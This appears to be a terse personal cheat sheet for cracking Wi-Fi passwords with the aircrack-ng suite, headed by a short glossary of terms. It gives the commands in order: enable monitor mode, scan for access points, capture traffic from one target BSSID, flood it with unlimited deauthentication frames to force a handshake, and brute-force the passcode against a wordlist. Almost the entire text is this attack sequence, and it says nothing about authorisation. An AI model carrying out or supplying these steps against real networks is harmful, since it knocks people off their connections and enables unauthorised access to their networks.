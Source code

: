 # Dictionary
	*BSSID*: Basic Service Set Identifier
	*ESSID*: Extended Service Set Identifier
	Master key
	Transient key
	EAPOL HMAC
# List all wireless interfaces
	$ iwconfig
		// lo: local loopback

# Kill any disturbing processes.

	$ sudo airmon-ng check kill

# Start monitor mode on the internet adapter
	$ sudo airmon-ng start <monitor_interface>

	Example for monitor_interface:
		wlp1s0
		wlan

# Scan for Wifi Router Access Point BSSID (MAC address) and channel

	$ sudo airodump-ng <monitor_interface>

# Logging files 
	
	$ sudo airodump-ng -w <log_file_name> -c <channel_numer> --bssid <bssid> <monitor_interface>

# Send de-authentication token

	$ sudo aireplay-ng --deauth 0 -a <bssid> <monitor_interface>

# Search for passcode in word lists. 

	$ aircrack-ng <log_file_name> -w <wordlist>

# Stop a monitoring interface
	$ sudo airmon-ng stop <monitor_interface>

# Restart wifi network
	$ sudo service network-manager restart
